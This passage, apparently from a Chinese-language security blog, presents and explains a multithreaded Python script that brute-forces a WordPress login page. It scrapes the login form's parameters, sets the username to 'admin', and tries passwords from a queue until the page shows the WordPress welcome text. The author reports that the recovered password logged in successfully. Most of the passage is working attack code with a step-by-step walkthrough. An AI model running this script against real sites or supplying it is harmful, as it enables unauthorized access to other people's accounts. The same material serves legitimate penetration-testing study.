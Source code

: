 接下来就是重要的爆破的代码：

```python
class Bruter:
    def __init__(self, username, url):
        self.username = username
        self.url = url
        self.found = False
        print(f'\nBrute Force Attack begining on {url}.\n')
        print("Finished the setup where username = %s\n" % username)

    def run_bruteforce(self, passwords):
        for _ in range(10):
            t = threading.Thread(target=self.web_bruter, args=(passwords, ))
            t.start()

    def web_bruter(self, passwords):
        session = requests.session()
        r0 = session.get(self.url)
        params = get_params(r0.content)
        params['log'] = self.username

        while not passwords.empty() and not self.found:
            time.sleep(5)
            passwd = passwords.get()
            print(f'Trying username/password: {self.username}/{passwd:<10}')
            params['pwd'] = passwd

            r1 = session.post(self.url, data=params)
            if SUCCESS in r1.content.decode():
                self.found = True
                print(f'\nBruteforcing successful.')
                print(f'Username is {self.username}')
                print(f'Password is {passwd}\n')
                print('done: now cleaning up other threads...') # 并没有 cleaning up，这就是一句空话
```

主要就是 `web_bruter()` 方法，首先 ` r0 = session.get(self.url)` 就是第一次访问登录界面，然后调用 `params = get_params(r0.content)` 获得参数，接着 ` params['log'] = self.username` 填入用户名，随后就可以开始爆破了。每次爆破都从 passwords 队列中获得一个密码，然后 `params['pwd'] = passwd` 填入密码，使用`r1 = session.post(self.url, data=params)` 尝试登录，如果 `if SUCCESS in r1.content.decode()` 则密码正确， `SUCCESS` 就是 `'欢迎使用WordPress！'`，否则继续爆破。

```python
if __name__ == '__main__':
    words = get_words() # 获得密码的队列
    b = Bruter('admin', TARGET)
    b.run_bruteforce(words) # 尝试爆破
```

运行结果：

![](https://raw.githubusercontent.com/hdfzzf/Figurebed/main/imgs/20220623232220.png)

利用这个密码可以成功登录。后期可以优化一下，找到密码则退出运行中的所有线程。
